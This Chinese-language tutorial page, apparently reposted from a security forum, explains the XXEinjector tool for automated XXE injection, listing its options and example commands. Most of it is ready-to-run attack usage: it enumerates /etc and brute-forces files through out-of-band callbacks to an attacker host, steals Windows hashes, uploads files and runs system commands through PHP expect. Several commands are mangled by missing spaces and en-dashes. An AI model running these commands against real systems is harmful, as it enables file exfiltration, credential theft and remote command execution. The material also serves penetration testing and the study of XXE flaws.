 # XXEinjector 自动化XXE注射工具

> 原文：[https://www.zhihuifly.com/t/topic/3594](https://www.zhihuifly.com/t/topic/3594)

## XXEinjector 自动化XXE注射工具

https://github.com/ianxtianxt/XXEinjector

> XXEinjector本身提供了非常非常丰富的操作选项，所以大家在利用XXEinjector进行渗透测试之前，请自习了解这些配置选项，以最大限度地发挥XXEinjector的功能。当然了，由于XXEinjector是基于Ruby开发的，所以Ruby运行环境就是必须的了。

```
--host     必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     使用netdoc协议。(Java).
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      XSLT注入测试。
--ssl              使用SSL。
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。 
```

## XXEinjector使用样例

枚举HTTPS应用程序中的/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl 
```

使用gopher（OOB方法）枚举/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher 
```

二次漏洞利用：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt 
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc 
```

通过直接性漏洞利用方式进行资源枚举：

```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK 
```

枚举未过滤的端口：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all 
```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes 
```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf 
```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls 
```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt 
```

记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt 
```